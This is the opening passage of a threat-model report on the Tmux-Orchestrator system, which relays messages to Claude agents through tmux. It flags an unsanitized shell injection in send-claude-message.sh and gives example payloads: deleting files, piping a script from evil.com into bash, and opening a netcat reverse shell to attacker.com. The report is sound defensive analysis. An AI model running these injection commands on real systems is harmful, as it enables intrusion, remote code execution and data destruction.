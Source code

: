 # Attack Vector Research: Tmux-Orchestrator System

## Executive Summary

This report presents a comprehensive threat modeling analysis of the Tmux-Orchestrator system from an attacker's perspective. The analysis identifies **21 critical attack vectors** across 6 major categories, with multiple pathways for achieving remote code execution, privilege escalation, data exfiltration, and persistent access. The system's design fundamentally prioritizes convenience over security, creating a perfect storm of vulnerabilities that make it unsuitable for any production environment.

**Risk Level: CRITICAL**

**Key Findings:**
- 8 Critical severity attack vectors with trivial exploitation
- 7 High severity attack vectors with easy-to-moderate exploitation
- 6 Medium severity attack vectors with moderate exploitation
- Multiple zero-day potential vulnerabilities in inter-agent communication
- Complete absence of security controls enables unlimited lateral movement

---

## 1. Remote Code Execution (RCE) Vectors

### 1.1 Shell Metacharacter Injection via send-claude-message.sh

**Attack Vector ID:** AV-RCE-001  
**Severity:** CRITICAL  
**CVSS Score:** 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)  
**Exploitability:** Trivial

**Technical Details:**
The `send-claude-message.sh` script directly passes user input to `tmux send-keys` without any validation or sanitization:

```bash
MESSAGE="$*"
tmux send-keys -t "$WINDOW" "$MESSAGE"
```

**Exploitation Pathways:**
1. **Direct Command Injection:**
   ```bash
   ./send-claude-message.sh session:window "; rm -rf /tmp/*"
   ./send-claude-message.sh session:window "; curl evil.com/payload.sh | bash"
   ```

2. **Background Process Injection:**
   ```bash
   ./send-claude-message.sh session:window "; nohup nc -e /bin/bash attacker.com 4444 &"
   ```
